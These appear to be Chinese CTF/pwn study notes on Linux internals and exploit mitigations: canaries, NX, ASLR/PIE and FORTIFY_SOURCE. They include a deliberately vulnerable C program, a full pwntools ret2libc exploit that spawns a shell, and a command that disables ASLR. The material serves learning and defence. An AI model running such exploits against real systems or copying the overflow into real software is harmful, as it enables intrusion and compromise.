



# linux基础
## 常用命令



## 流、管道、重定向
- 流（stream）可以理解成一串连续的、可边读边处理的数据。
- 标准流（standard streams）可以分为标准输入、标准输出和标准错误。
- 文件描述符（file descriptor）是内核为管理已打开文件所创建的索引，使用一个非负整数来指代被打开的文件
- linux中一切皆文件，流也不例外，所以输入和输出就被当作对应文件的读和写来执行。标准流定义在头文件unistd.h
  - 
- 管道（pipeline）是指一系列进程通过标准流连接在了一起，前一个进程的输出（stdout）直接作为后一个进程的输入（stdin）。管道符号为“|”，例如：“$ ps -aux | grepbash”。
- 输入输出重定向
  - 
## 根目录结构
- linux中三种基本文件类型
  - 普通文件：包含文本文件（只含ASCII或Unicode字符，换行符为“\n”，即十六进制0x0A）和二进制文件（所有其他文件）；
  - 目录：包含一组链接的文件，其中每个链接都将一个文件名映射到一个文件，这个文件可能是另一个目录；
  - 特殊文件：包括块文件、符号链接、管道、套接字等。
- 路径分绝对路径和相对路径
## 用户组与文件权限
- 每个用户都有UserID(UID)和Group ID(GID)，其中UID是对一个用户的单一身份标识，而GID则对应多个UID。
  - 查看用户uid与gid情况，UID为0的root用户类似于系统管理员，它具有系统的完全访问权。我自己新建的普通用户firmy，其UID为1000
  - 
- GID的关系存储在/etc/group文件
  - 
- 所有用户的信息（除了密码）都保存在/etc/passwd文件中，加密过的用户密码则保存在/etc/shadow文件中，此文件只有root权限可以访问。
  - 
- su命令切换用户权限
- whoami用于打印当前有效的用户名称
- 文件权限
  - 
- chmod变更用户权限
  - 用户可以使用chmod命令变更文件与目录的权限。权限范围被指定为所有者（u）、所属组（g）、其他人（o）和所有人（a）。chmod命令的用法如下所示。
    - -R：递归处理，将目录下的所有文件及子目录一并处理
    - <权限范围> + <权限设置>：添加权限。例如：$ chmoda+r [file]
    - <权限范围> - <权限设置>：删除权限。例如：$ chmod u-w [file]
    - <权限范围> = <权限设置>：指定权限。例如：$ chmodg=rwx [file]
## 环境变量
- 环境变量字符串以“name=value”这样的形式存在，大多数name由大写字母加下画线组成，通常把name部分称为环境变量名，value部分称为环境变量的值，其中value需要以“/0”结尾。
- 按照生命周期划分
  - 永久环境变量：修改相关配置文件，永久生效；
  - 临时环境变量：通过export命令在当前终端下声明，关闭终端后失效。
- 按照作用域划分
  - 系统环境变量：对该系统中所有用户生效，可以在“/etc/profile”文件中声明；
  - 用户环境变量：对特定用户生效，可以在“~/.bashrc”文件中声明。
- env打印所有环境变量
- LD_PRELOAD
  - 用于指定优先加载的动态链接库，允许预加载库中的函数和符号能够覆盖掉后加载的库中的函数和符号，常用于ctf中预加载特定版本的libc，从而覆盖后加载的libc
  - ldd命令用于查看可执行文件依赖的动态链接库
  - ELF文件的INTERP字段指定了解释器ld.so的位置，如果该路径与动态链接库的位置不匹配，则会触发错误。关于这一点会在编译debug版本的glibc一节（5.1.3节）中做深入讲解。
- ***environ***
  - libc中定义的全局变量environ指向内存中的环境变量表，更具体地，该表就位于栈上，因此通过泄露environ指针的地址，即可获得栈地址。这一技巧在Pwn题中很常见，具体见12.6章
  - 通过gdb调试获得进程中的环境变量表
## procfs文件系统
- linux提供的虚拟文件系统，为访问内核提供接口，只占用内存，不占用存储，可以用于修改内核运行状态
- 位于/proc目录下，目录名就是进程pid
  - 查看进程"cat -"相关信息
  - 
  - 
  - 
  - 
## 字节序
- 大端：数据高位存储在内存低地址，传输时放在流的开始，
  - TCP/IP协议和Java虚拟机的字节序也是大端。
  - PowerPC系列处理器则使用大端
- 小端：数据高位存储在内存高地址
  - 常见的Intel处理器使用小端
## linux下调用约定
- 用户接口
  - x86-32函数调用约定：参数通过栈进行传递。最后一个参数第一个被放入栈中，直到所有的参数都放置完毕，然后执行call指令。这也是Linux上C语言默认的方式。
  - x86-64函数调用约定：x86-64下通过寄存器传递参数，这样做比通过栈具有更高的效率。它避免了内存中参数的存取和额外的指令。根据参数类型的不同，会使用寄存器或传参方式。如果参数的类型是MEMORY，则在栈上传递参数。如果类型是INTEGER，则顺序使用rdi、rsi、rdx、rcx、r8和r9。所以如果有多于6个的INTEGER参数，则后面的参数在栈上传递。
- 内核接口
  - x86-32系统调用约定：Linux系统调用使用寄存器传递参数。eax为syscall_number，ebx、ecx、edx、esi和ebp用于将6个参数传递给系统调用。返回值保存在eax中。所有其他寄存器（包括EFLAGS）都保留在int 0x80中。
  - x86-64系统调用约定：内核接口使用的寄存器有rdi、rsi、rdx、r10、r8和r9。系统调用通过syscall指令完成。除了rcx、r11和rax，其他的寄存器都被保留。系统调用的编号必须在寄存器rax中传递。系统调用的参数限制为6个，不直接从堆栈上传递任何参数。返回时，rax中包含了系统调用的结果，而且只有INTEGER或者MEMORY类型的值才会被传递给内核。
## 核心转储
- 当程序运行的过程中出现异常终止或崩溃，系统就会将程序崩溃时的内存、寄存器状态、堆栈指针、内存管理信息等记录下来，保存在一个文件中，叫作核心转储（Core Dump）
- 可能产生核心转储的信号
  - 
- 开启核心转储，修改核心转储文件保存路径，默认情况下核心转储文件保存在与产生crash的可执行程序相同的目录
  - 
- 使用gdb调试核心转储
  - 
  - 
## 系统调用
- 系统调用是内核提供给用户空间调用的内核空间函数，是用户空间访问内核的唯一手段
- x86提供了358个系统调用，x86-64提供了322个系统调用。
- 32位中的系统调用（int 0x80）
  - 使用了int 0x80系统调用的32位汇编程序可以编译为64位程序
  - 程序将调用号保存到eax，参数传递的顺序依次为ebx、ecx、edx、esi和edi。通过int $0x80来执行系统调用，返回值存放在eax
  - 
- 32位中的系统调用（sysenter指令）（对应sysexit指令）
  -  使用了sysenter系统调用的32位程序不能编译为64位程序
  - 为了使用sysenter指令，需要为其手动布置栈。这是因为在sysenter返回时，会执行__kernel_vsyscall的后半部分（从0xf7fd5059开始）。__kernel_vsyscall封装了sysenter调用的规范，是vDSO的一部分，而vDSO允许程序在用户层中执行内核代码。关于vDSO会在12.8节中细讲。
  - 
  - linux中sysenter封装在__kernel_vsyscall中，__kernel_vsyscall函数末尾存在针对ebp、edx、ecx寄存器的pop操作，所以在调用sysenter时需要首先不知栈帧，将ebp、edx、ecx寄存器入栈，__kernel_vsyscall函数位于vDSO段中，该段详细内容见12章
- 64位中的系统调用（syscall指令）（对应sysret指令）
  - 使用了syscall系统调用的64位程序不能编译为32位程序
  - 
- 通过int 0x80、sysenter、syscall直接在用户空间使用系统调用，但一般而言，应用程序通过在用户空间实现的应用编程接口（API）而不是系统调用来进行编程，此类编程接口均为系统调用的封装
  - 
# Stack Canaries
- Canaries通常可分为3类：terminator、random和randomXOR，
- 具体的实现有StackGuard（linux中最早的实现）、StackShield、ProPoliced等。
- Terminator canaries
  - 由于许多栈溢出都是由于字符串操作（如strcpy）不当所产生的，而这些字符串以NULL“\x00”结尾，换个角度看也就是会被“\x00”所截断。基于这一点，terminator canaries将低位设置为“\x00”，既可以防止被泄露，也可以防止被伪造。截断字符还包括CR(0x0d)、LF(0x0a)和EOF(0xff)。
  - 即通过将安全cookie的低位设置为字符串操作的阶段字符，从而防御由字符串操作带来的栈溢出攻击
- Random canaries
  - 为防止canaries被攻击者猜到，random canaries通常在程序初始化时随机生成，并保存在一个相对安全的地方。当然如果攻击者知道它的位置，还是有可能被读出来。随机数通常由/dev/urandom生成，有时也使用当前时间的哈希。
  - 即将cookie值进行随机化
-  Random XOR canaries：
   -  与random canaries类似，但多了一个XOR操作，这样无论是canaries被篡改还是与之XOR的控制数据被篡改，都会发生错误，这就增加了攻击难度
- gcc编译时开启与关闭栈安全cookie
  - 
- ***64位程序代码中检测cookie值，64位程序中cookie值存储在fs:[0x28]的位置***
  - 
- fs寄存器用于存放线程局部存储（TLS结构体）
  - TLS主要是为了避免多个线程同时访存同一全局变量或者静态变量时所导致的冲突，尤其是多个线程同时需要修改这一变量时。TLS为每一个使用该全局变量的线程都提供一个变量值的副本，每一个线程均可以独立地改变自己的副本，而不会和其他线程的副本冲突。从线程的角度看，就好像每一个线程都完全拥有该变量。而从全局变量的角度看，就好像一个全局变量被克隆成了多份副本，每一份副本都可以被一个线程独立地改变。在glibc的实现里，TLS结构体tcbhead_t的定义如下所示，偏移0x28的地方正是stack_guard。
  - TLS结构体偏移0x28的位置存储栈安全cookie
- ***32位程序代码中检测cookie值，64位程序中cookie值存储在gs:[0x14]的位置***
  - 
- ***部分体系结构中TLS结构体中不存储canary值，此时程序会将生成的canary值作为全局变量__stack_chk_guard存储在bss段，并在函数开始和结束时取用该值进行验证***
- 脚本checksec.sh对Canary的检测也是根据是否存在__stack_chk_fail（或者__intel_security_cookie）来进行判断的。
  - 
## canary的实现
- 以64位程序为例，在程序加载时glibc中的ld.so首先初始化TLS，包括为其分配空间以及设置fs寄存器指向TLS，这一部分是通过arch_prctl系统调用完成的。然后程序调用security_init()函数，生成Canary的值stack_chk_guard，并放入fs:0x28
- 除security_init()函数外，在__libc_start_main()函数中也可以生成Canary，并将canary值最终设置到tls结构体或bss段中
## canary绕过思路
- 将Canaries的值泄露出来，然后在栈溢出时覆盖上去，使其保持不变
- 则是同时篡改TLS和栈上的Canaries，这样在检查的时候就能够通过
- 例子
  - 4.2.3和4.2.4
  - 9.2节和12.5节
  - 2002年的论文Fourdifferent tricks to bypass StackShield and StackGuardprotection。
# No-eXecute
- No-eXecute（NX），表示不可执行，其原理是将数据所在的内存页（例如堆和栈）标识为不可执行，如果程序产生溢出转入执行shellcode时，CPU就会抛出异常。
- linux中程序加载到内存中后以段（segment）的形式进行组织，同一个segment的不同section的读、写、执行权限相同，说明nx以segment位单位设置不同内存的读写属性
- 在Linux中，当装载器将程序装载进内存空间后，将程序的.text节标记为可执行，而其余的数据段（.data、.bss等）以及栈、堆均为不可执行
- 实施这种保护的技术有多种名称，在Windows上称为数据执行保护（DEP），在Linux上则有NX、W^X、PaX、和Exec Shield等。
- NX实现原理
  - 硬件层面：在硬件层面，利用处理器的NX位，对相应页表项中的第63位进行设置，设置为1表示内容不可执行，设置为0则表示内容可执行。一旦程序计数器（PC）被放到受保护的页面内，就会触发硬件层面的异常
  - 在软件层面，操作系统需要支持NX，以便正确配置页表，但有时这会给自修改代码或者动态生成的代码（JIT编译代码）带来一些问题，这在浏览器上很常见。这时，软件需要使用适当的API来分配内存，例如Windows上使用VirtualProtect或VirtualAlloc，Linux上使用mprotect或者mmap，这些API允许更改已分配页面的保护级别。
- Ubuntu中已经默认启用了NX。GNU_STACK段在禁用NX时权限为RWE，而开启后权限仅为RW，不可执行。
  - 
- 脚本checksec.sh对NX的检测也是基于GNU_STACK段的权限来进行判断的。
  - 
## NX的实现
- 4.3.2
## ***示例（绕过NX漏洞利用demo）***
### 未开启NX的情况下
- 漏洞程序源码
- gcc编译时关闭nx，canary，ASLR
- 使用gdb进行调试
  - pattern create 150：用于生成长度为150的字符串，后期将作为程序输入，根据漏洞程序，该长度的字符串作为输入时会导致栈溢出
  - r：程序运行，由于栈溢出导致段错误，错误eip为0x6261616b，此时由于栈溢出，输入字符串将栈中返回地址覆盖，从而导致eip被错误赋值，即此时0x6261616b来自输入字符串
  - pattern offset 0x6261616b：用于计算0x6261616b在输入字符串中的偏移，结果显示小端存储下0x6261616b距离输入字符串首地址偏移140，也可以使用pattern search命令（注意新版本的pwntools中似乎没有offset命令，仅能使用search命令  ） 
  - esp减4减140：用于计算输入字符串在栈中的首地址，当程序崩溃时，esp指向栈中返回地址后四个字节的位置，所以$esp-4得到返回地址在栈中存储的内存地址，在此基础上减140，得到输入字符串在栈中的内存首地址，之后可以将shellcode布置在该内存地址处（即布置在输入字符串的头部），并在返回地址处覆盖该内存地址，从而使程序跳转回该位置执行shellcode
  - 最终得到栈中存储输入字符的内存首地址为0xffffcce0，准备将其用于覆盖函数返回地址
  -   
- 构造payload
  - 
  - 这里将之前得到的存储输入字符串的栈空间首地址用于覆盖程序返回地址。
  - ***由于“程序运行时栈的地址”与“gdb调试时程序栈地址”不同，所以需要通过核心转储或attach到已有进程中，才能确定栈实际的地址，即之前确定的0xffffcce0不是程序实际运行时栈中存储输入字符串的内存首地址***
- 开启core dump，重新触发crash，得到核心转储文件，调试核心转储文件，得到程序运行时实际栈内存地址，以该地址设置payload，获得shell
  - 
## 开启NX的情况 
- 重新编译，开启nx保护
  - 
- 因为程序中存在libc，且未开启aslr等地址随机化机制，所以可以直接将libc中的system函数以及“/bin/sh”字符串地址硬编码到payload中，从而获得shell
  - gef中获取指定函数地址可以使用 p 指令，p system即打印system函数地址
  - gef中获取指定字符串地址可以使用search-pattern 或 grep，从而在进程空间中搜索字符串
  - 
# ASLR与PIE
## ASLR
- 地址空间布局随机化（Address Space Layout Randomization,ASLR）
- 系统层面提供的机制，可以随机化栈、堆、库加载基址
- 突破思路：爆破，ret2plt、GOT劫持等***（因为aslr不会改变可执行程序自身的加载基址，所以程序自身中plt、got等表项的地址仍是固定的，但当PIE出现后，plt got表项地址会被随机化）***
  - 著名的例子是Apache服务器，它的每个连接都会复刻一个子进程，但这些子进程并不会重新进行随机化，而是与主进程共享内存布局，所以攻击者可以不断尝试，直到找到正确地址。
- linux中配置ASLR
  - 在Linux上，ASLR的全局配置/proc/sys/kernel/randomize_va_space有三种情况：
  - 0表示关闭ASLR；
  - 1表示部分开启（将共享库的基址、mmap的基址、stack和vdso页面随机化）；
  - 2表示完全开启（在部分开启的基础上增加 heap的随机化）
    - 
  - 可以通过重定向符号向/proc/sys/kernel/randomize_va_space中写0、1、2，从而配置ASLR启用情况
    - 
- ASLR与PIE均不开启时，程序本身（即main函数地址）、PLT表地址（即system@plt）、堆、栈、共享库的内存地址均不变
  - 
- ASLR部分开启，PIE不开启，仅栈和共享库内存地址发生变化
  - 
- ASLR完全开启，PIE不开启，栈、堆和libc都有变化，但程序本身以及PLT表地址不变。
  -  
- ***注意在以上的例子中，程序中出现了sysytem函数，该函数来自libc库，在pie关闭，aslr完全开启的情况下，libc库加载基址会随机化，由此带来system函数内存地址随机化，在linux中，使用got表（特指got表中的.got.plt表部分）以及plt表机制完成函数调用，system函数地址保存在对应.got.plt表项中，该地址由于aslr完全开启，所以每次运行均会被随机化，但是system函数对应的plt表项由于存在于程序自身，且PIE未开始，所以此时system函数对应plt表项的内存地址不会变，表现在汇编中即call system@plt指令不会发生变化，所以通过确定进程中system@plt的值（程序加载基址+固定偏移），我们仍可以在完全开启ASLR，关闭PIE的情况下调用sysytem函数，此类原理可以实现在完全开启ASLR，关闭PIE的情况下，通过调用程序中的输出函数（例如write@plt）输出本函数内存地址（例如write@got），从而获得lib库中的对应内存地址（例如write函数的实际内存地址），进一步通过固定偏移，从而确定lib库的加载基址***
## ASLR的查询和修改
通过读写 /proc/sys/kernel/randomize_va_space 内核文件可以查看或者修改 ASLR 等级：
- $ cat /proc/sys/kernel/randomize_va_space       # 查看 ASLR
- $ echo 0 > /proc/sys/kernel/randomize_va_space  # 关闭 ASLR
## ASLR的实现
  - 4.4.3节
## PIE
- 位置无关可执行文件（Position-Independent Executable, PIE）
- 在应用层的编译器上实现，通过将程序编译为位置无关代码（Position-Independent Code, PIC），使程序可以被加载到任意位置，就像是一个特殊的共享库
- 在PIE和ASLR同时开启的情况下，攻击者将对程序的内存布局一无所知，
- PIE会在一定程度上影响性能，大多数操作系统上PIE仅用于一些对安全性要求比较高的程序。
- 开启与关闭PIE
  - -fpie可以生成位置无关代码，其生成的位置无关代码可以被-pie选项链接到可执行文件中
    - 
    - 如果想要PIE的程序，需要你除了在gcc增加-fpie选项外，还需要在ld时增加-pie选项才能产生这种代码。即gcc -fpie -pie来编译程序。单独使用哪一个都无法达到效果。
    - 注意-pie -fno-pie编译选项的结合也可以生成支持随机基址加载的可执行文件
    - -fpie选项用于编译器，使用这个选项之后，从.c或.cpp编译出来的.o文件将是位置无关的目标文件。而-pie选项则用于链接器，使用这个选项之后，链接器能够把-fpie选项下编译出来的.o文件链接成位置无关可执行程序。
  - 完全开启aslr与pie，程序的内存地址会进行完全的随机化
    - 
- aslr与pie局限性
  - 由于粒度问题，两者仅能将对象起始地址初始化，对象内部结构不变，可以通过泄露对象内部任一内存地址，结合固定的相对偏移，定位对象中其他内容
  - 在论文Offset2lib: bypassingfull ASLR on 64bit Linux中提到，程序加载时只有第一个动态库会获得随机化的地址，后面的动态库则按顺序依次排列，这就导致任意一个动态库的信息泄露都会导致整个内存布局的泄露，这一问题已经在新内核上被修复。
- checksec.sh脚本检测：首先判断是一个共享目标文件（DYN），然后判断dynamic节里有DEBUG类型的条目。
  - 
- ***使用-pie -fno-pie 编译程序***
  - -fno-pie表示不生成位置无关代码，-pie表示生成动态来连接的位置无关可执行文件，两者结合生成的可执行文件为位置无关的（即file命令下输出ELF 32-bit LSB shared object），且可以加载到内存任意地址执行，且可执行文件不使用plt got表调用外部函数（但程序中仍存在got plt表的数据结构），程序执行后会进行重定位，将相关函数的实际地址（例如write函数在libc中的地址）直接填入call指令处，从而直接调用相关外部函数，在此之前相关call指令的目标地址为call指令自身下一个字节的位置
  - 目标程序源码 bypass_ASLR_print_main.c
```cpp
#include<stdio.h>
#include<unistd.h>
void vuln_func(){
        char buf[128];
        read(STDIN_FILENO,buf,256);
}
int main(int argc,char *argv[]){
        printf("%p\n",&main);
        vuln_func();
        write(STDOUT_FILENO,"HELLO WORLD\n",13);
}
```
  - 使用-pie -fno-pie编译该文件，得到的文件的类型为ELF 32-bit LSB shared object，可以支持随机基址加载并执行
    - 
  - 目标文件执行前，其内部的printf，write等外部函数调用将会指向call指令的下一个字节处，目的是占位
    - 
  - 目标文件执行后，通过符号解析和重定位，程序会将printf、write等函数在libc中的实际地址填入call指令调用中，从而直接调用函数，不使用got、plt表等机制进中转
    - 
  - 查看该文件在pwntolls中的相关输出，根据分析，此时目标文件在pwntools中以及符号表、plt表、got方面的特征与libc库在相关特征相同，具体特点见pwn关键细节中的对应内容
    - 
  - 查看该文件在符号表、got表、plt表相关内容，其特征与libc库在相关特征相同，具体特点见pwn关键细节中的对应内容
    - 符号表
      - 
    - plt
      - 
    - got
      - 
- ***使用-pie -fpie 编译程序***
  - -fpie用于在编译阶段为可执行文件生成位置无关代码，结合链接阶段使用-pie，可以真正实现可执行文件的PIE功能
  - 目标程序源码与上文相同
  - 编译命令：gcc -m32 -fno-stack-protector -z noexecstack -pie -fpie bypass_ASLR_print_main.c -o _pie_fpie_print_main.out
    - 
  - 程序执行前，针对main函数进行反汇编，发现以下不同
    - 程序执行前，代码段中相关地址均为数据在文件中的偏移，例如vunl_func函数地址0x650，printf函数的plt表项地址0x4a等
    - main函数开头的get_pc_thunk.bx函数会将当前call指令的下一条指令的地址赋值给ebx寄存器，之后ebx再加0x1967 即ebx=0x699+0x1967=0x2000，根据之后的分析，0x2000为程序got表存储的位置，程序在main函数运行期间将将0x2000保持在ebx寄存器，从而在需要时定位got表位置
    - 对于内部函数的调用，call指令的目标地址是内部函数在文件中的偏移
    - 调用外部函数时，call指令目标地址为对应外部函数的plt表项在可执行文件中的偏移，说明此时程序仍使用got、plt机制实现外部函数调用
      - 
    - 分析上面提到的0x2000内存地址，发现其内容即got表，在延迟绑定发生前，got表项指向对应plt表项的第二条指令
      - 
    - 分析内部函数vuln_func，该函数开头通过get_pc_thunk.ax将eip值赋值给eax，再通过eax自增，让eax=0x2000，即同样指向程序中的got表，且该函数开头和结尾会保存和恢复来自main函数的ebx寄存器，从而保证ebx同样指向got表
      - 
  - 程序执行后，情况如下
    - main函数中内部函数与外部函数的调用地址在程序执行前的偏移基础上增加了程序加载基址，即0x56555000，形成虚拟内存地址，程序执行过程中的符号解析和重定位完成该步骤
      - 
    - 相关got和plt表项的基地址同样增加了程序加载基址，从而成为虚拟内存地址，got表中延迟绑定的项仍指向对应plt表项的第二条指令，已经完成延迟绑定的got项指向对应libc中的函数
      - 
    - 查看该文件在pwntolls中的相关输出，根据分析，此时目标文件在pwntools中以及符号表、plt表、got方面的特征与libc库在相关特征相同，具体特点见pwn关键细节中的对应内容
      - 整体特征与使用-pie -fo-pie编译得到的可执行程序类似
      - 
    - 查看该文件在符号表、got表、plt表相关内容，其特征与libc库在相关特征相同，具体特点见pwn关键细节中的对应内容
      - 符号表
        - 
      - plt
        - 
      - got
        - 
- ***总结：整体而言，无论是使用-pie -fno-pie还是-pie -fpie得到的可执行文件在file命令下均为可共享目标文件（与so文件相同）此时使用pwntools的elf.sym、elf.plt、elf.got方法读取程序内的函数，得到的均为相关函数的文件偏移而非虚拟内存地址，根据该特性，可以结合对应函数实际内存地址，从而计算可执行文件加载基址（文件加载基址=函数实际地址-elf.sym['对应函数']），进一步计算出程序内其他函数的地址。***
## ***示例(绕过ASLR与PIE)***
- 漏洞程序
## 完全开启aslr，关闭:pie、栈cookie、nx
- 完全开启aslr
- 关闭pie、安全cookie、nx情况下，编译程序
- 设计payload
  - 具体exp见：工具使用部分
  - 
  - 针对payload1="A"*140+p32(elf.sym['write'])+p32(vuln_func)+p32(1)+p32(elf.got['write'])+p32(4)
    - elf.sym['write']表示write函数在elf文件符号表中write符号的符号值，elf文件中符号表中的符号值表示对应符号（变量/函数）的引用地址（即存储变量的内存地址/函数所在的内存地址），对于write函数而言，其符号值即为对应函数plt表项的地址，即write@plt（具体细节分析见pwn关键细节.md）
    - elf.sym[]是elf.symbols[]的别名
    - write函数原型为ssize_t write (int fd, const void * buf, size_t count);，故payload1中p32(1)+p32(elf.got['write'])+p32(4)分别用于设置write函数的三个参数，即将write函数got表项首地址开始4字节内容输出到标准输出（即1）中
    - p32(vuln_func)用于作为write函数返回地址，从而方便进行下一轮payload注入
  - 针对system_addr=write_addr-libc.sym['write']+libc.sym['system']
    - 得到write函数在内存中的实际地址后write_addr-libc.sym['write']可以得到libc库的内存加载基址，加上system函数在libc库中的偏移（即libc.sym['system']）即可得到system函数实际地址，同理可以得到libc库中的'/bin/sh'字符串的地址
  - 针对payload2：payload2="B"*140+p32(system_addr)+p32(vuln_func)+p32(binsh_addr)
    - 调用system('/bin/sh')函数获得shell
## 完全开启aslr、pie 关闭：栈cookie、nx
- 程序源码：因为需要绕过pie，所以目标程序中需要存在泄露可执行文件中函数内存地址的漏洞，即main函数中打印main函数地址
```cpp
#include<stdio.h>
#include<unistd.h>
void vuln_func(){
        char buf[128];
        read(STDIN_FILENO,buf,256);
}
int main(int argc,char *argv[]){
        printf("%p\n",&main);//假设为内存泄露漏洞，从而获得可执行文件中函数地址
        vuln_func();
        write(STDOUT_FILENO,"HELLO WORLD\n",13);
}
```
- 完全开启aslr
- 编译程序（开启PIE）：
- 编写exp，注意vunlfunc函数的会在函数起始位置和结束位置分别保存和恢复ebx寄存器值，所以在payload1需要在vuln_func函数的[ebp-4]的位置布置ebx寄存器值，从而保证vuln_func函数正常返回，payload2中可以设置ebx，也可以不设置ebx，不影响执行system('/bin/sh'),但出于规范考虑最好还是加上
```python
from pwn import*

io=process('./_pie_fpie_print_main.out')
elf=ELF('./_pie_fpie_print_main.out')
libc=ELF('/lib32/libc.so.6')

main_addr=int(io.recvline(),16)
base_addr=main_addr-elf.sym['main']
vuln_func=base_addr+elf.sym['vuln_func']
plt_write=base_addr+elf.plt['write']
got_write=base_addr+elf.got['write']

ebx=base_addr+0x2000

payload1="A"*132+p32(ebx)+"AAAA"+p32(plt_write)+p32(vuln_func)+p32(1)+p32(got_write)+p32(4)

io.send(payload1)
write_addr=u32(io.recv())

system_addr=write_addr-libc.sym['write']+libc.sym['system']
binsh_addr=write_addr-libc.sym['write']+next(libc.search('/bin/sh'))

payload2="A"*132+p32(ebx)+"AAAA"+p32(system_addr)+p32(vuln_func)+p32(binsh_addr)
#this payload2 is work to
#payload2="A"*140+p32(system_addr)+p32(vuln_func)+p32(binsh_addr)

io.send(payload2)
io.interactive()
```
# FORTIFY_SOURCE
- 一种检查机制，针对导致缓冲区溢出及格式化字符串漏洞的高危函数（字符串操作函数）在编译过程中进行检查，确定是否存在漏洞风险，或将危险函数替换为安全函数，且不会对程序执行的性能产生大的影响，同时该机制会在程序运行过程中进行安全检查，并在不安全的情况下抛出异常
- 该机制目前所支持的函数有memcpy、memmove、memset、strcpy、stpcpy、strncpy、strcat、strncat、sprintf、vsprintf、snprintf、vsnprintf、gets等，这些安全函数位于glibc源码的debug目录下。
- Ubuntu16.04（GCC-5.4.0）上，该机制默认是关闭的。当指定了优化等级（-O）为1以上，相当于默认开启FORTIFY_SOURCE的等级为1，如果我们希望检查等级为2，则需要手动指定参数。
  - -D_FORIFY_SOURCE=0时，关闭FORTIFY_SURCE机制
  - -D_FORIFY_SOURCE=1时，开启缓冲区溢出攻击检查； 
  - -D_FORIFY_SOURCE=2时，开启缓冲区溢出以及格式化字符串攻击检查。
- 该机制并不仅仅能够应用于glibc，只需要将相应的头文件string.h、stdio.h等打上补丁，也能够获得该机制的保护。
- 开启FORTIFY_SOURCE机制：使用-D_FORTIFY_SOURCE=1或2编译选项指定检查等级
  - 
- 脚本checksec.sh根据函数名是否带有“_chk”后缀来判断是否开启FORTIFY_SOURCE。
  - 
## FORTIFY_SOURCE的实现
- 4.5.2节
- 在安全函数__strcpy_chk()内部，判断源数据的长度是否大于目的缓冲区的大小，如果是，就调用__chk_fail()抛出异常，否则就调用普通函数memcpy()进行字符串复制操作。
  - 
- 在安全函数___printf_chk()内部，针对格式化字符串漏洞的检测分为两个部分
  - 一个是针对%n格式字符串的，如果程序试图利用%n写入拥有写权限的内存（如栈、堆、BSS段等），就抛出异常
  - 另一个是针对%N$（N表示第几个参数 N=1、2、3...）这种带有位置参数的格式字符串的，安全函数会针对格式化字符串所有的参数进行遍历，如果指定参数之前参数没有被使用，则该参数的使用存在格式化字符串漏洞风险，会抛出异常，例如，我们不能单独使用%3$，而需要与它之前的%2$和%1$同时使用。
## 示例
- 示例程序代码，代码中存在safe、unknown、unsafe以及fmt unknown四个部分的代码
  - 
  - safe部分的源数据长度是可知的，且小于缓冲区大小，因此被认为是安全的；
  - unknown部分的源数据长度不确定，不能判断真正执行的时候是否安全，因此被认为是存在风险的
  - unsafe部分的源数据长度已知，且大于缓冲区大小，因此被认为是不安全的；
  - fmt known部分是针对printf系列函数的格式字符串，如%n、%5$x等（在FORTIFY_SOURCE的等级为2时，会被认为是不安全的，然后抛出异常。）
- FORTIFY_SOURCE编译时安全检查(-D_FORTIFY_SOURCE=2)
